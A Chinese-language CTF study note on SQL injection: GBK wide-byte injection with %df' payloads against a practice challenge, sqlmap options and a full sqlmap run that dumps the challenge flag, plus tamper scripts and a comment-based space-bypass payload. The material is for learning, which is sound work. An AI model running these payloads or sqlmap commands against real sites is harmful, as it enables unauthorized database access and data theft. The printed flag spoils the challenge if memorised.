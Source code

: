 SQL注入小技巧
================================

宽字节注入
--------------------------------
- 例题: ``http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1`` 

::

		%df’ 被PHP转义（开启GPC、用addslashes函数，或者icov等），单引号被加上反斜杠\，变成了 %df\’，
		其中\的十六进制是 %5C ，那么现在 %df\’ 	=%df%5c%27，如果程序的默认字符集是GBK等宽字节字符集，
		则MySQL用GBK的编码时，会认为 %df%5c 是一个宽字符，也就是縗’，也就是说：%df\’ = %df%5c%27=縗’，
		因为gbk是多字节编码，他认为两个字节代表一个汉字，所以%df和后面的\也就是%5c变成了一个汉字“運”，
		而’逃逸了出来，有了单引号就好注入了.

		http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df'

		--threads 10	//如果你玩过 msfconsole的话会对这个很熟悉 sqlmap线程最高设置为10
		--level 3 	//sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP 
				Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高可到5
		--risk 3 	// 执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全
		--search 	//后面跟参数 -D -T -C 搜索列（S），表（S）和或数据库名称（S） 如果你脑子够聪明，
				应该知道库列表名中可能会有ctf,flag等字样.


- 执行 ``sqlmap -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1%df%27" --search -C flag --level 3 --risk 1 --thread 10`` 

::

		[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

		[*] starting at 05:36:28

		[05:36:29] [WARNING] it appears that you have provided tainted parameter values ('id=1%df'') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
		are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
		[05:36:30] [INFO] resuming back-end DBMS 'mysql'
		[05:36:30] [INFO] testing connection to the target URL
		[05:36:31] [INFO] heuristics detected web page charset 'ISO-8859-2'
		[05:36:31] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
		sqlmap resumed the following injection point(s) from stored session:
		---
		Parameter: id (GET)
			Type: boolean-based blind
			Title: AND boolean-based blind - WHERE or HAVING clause
			Payload: id=1%df' AND 5642=5642-- jbOi

			Type: AND/OR time-based blind
			Title: MySQL >= 5.0.12 AND time-based blind
			Payload: id=1%df' AND SLEEP(5)-- YtXh
		---
		[05:36:31] [INFO] the back-end DBMS is MySQL
		back-end DBMS: MySQL >= 5.0.12
		do you want sqlmap to consider provided column(s):
		[1] as LIKE column names (default)
		[2] as exact column names
		> 1
		[05:36:33] [INFO] searching columns LIKE 'flag' across all databases
		[05:36:33] [INFO] fetching number of databases with tables containing columns LIKE 'flag' across all databases
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 14
		[05:36:33] [INFO] resumed: sae-chinalover
		[05:36:33] [INFO] fetching number of tables containing columns LIKE 'flag' in database 'sae-chinalover'
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 4
		[05:36:33] [INFO] resumed: ctf4
		[05:36:33] [INFO] fetching columns LIKE 'flag' for table 'ctf4' in database 'sae-chinalover'
		[05:36:33] [INFO] resumed: 1
		[05:36:33] [INFO] retrieving the length of query output
		[05:36:33] [INFO] resumed: 4
		[05:36:33] [INFO] resumed: flag
		columns LIKE 'flag' were found in the following databases:
		Database: sae-chinalover
		Table: ctf4
		[1 column]
		+--------+
		| Column |
		+--------+
		| flag   |
		+--------+

		do you want to dump entries? [Y/n] y
		which database(s)?
		[a]ll (default)
		[sae-chinalover]
		[q]uit
		>
		which table(s) of database 'sae-chinalover'?
		[a]ll (default)
		[ctf4]
		[s]kip
		[q]uit
		>
		[05:36:36] [INFO] fetching entries of column(s) 'flag' for table 'ctf4' in database 'sae-chinalover'
		[05:36:36] [INFO] fetching number of column(s) 'flag' entries for table 'ctf4' in database 'sae-chinalover'
		[05:36:36] [INFO] resumed: 1
		[05:36:36] [INFO] retrieving the length of query output
		[05:36:36] [INFO] resumed: 15
		[05:36:36] [INFO] resumed: nctf{gbk_3sqli}
		Database: sae-chinalover
		Table: ctf4
		[1 entry]
		+-----------------+
		| flag            |
		+-----------------+
		| nctf{gbk_3sqli} |
		+-----------------+

		[05:36:36] [INFO] table '`sae-chinalover`.ctf4' dumped to CSV file 'C:\Users\ninthDVEIL HUNSTER\.sqlmap\output\chinalover.sinaapp.com\dump\sae-chinalover\ctf4.csv'
		[05:36:36] [INFO] fetched data logged to text files under 'C:\Users\ninthDVEIL HUNSTER\.sqlmap\output\chinalover.sinaapp.com'

		[*] shutting down at 05:36:36

- sqlmap脚本
	--tamper "unmagicquotes.py"

空格绕过
-----------------------------------------
- 注释绕过
	``admin"/**/or/**/1=1'``
- sqlmap脚本
	--tamper=space2comment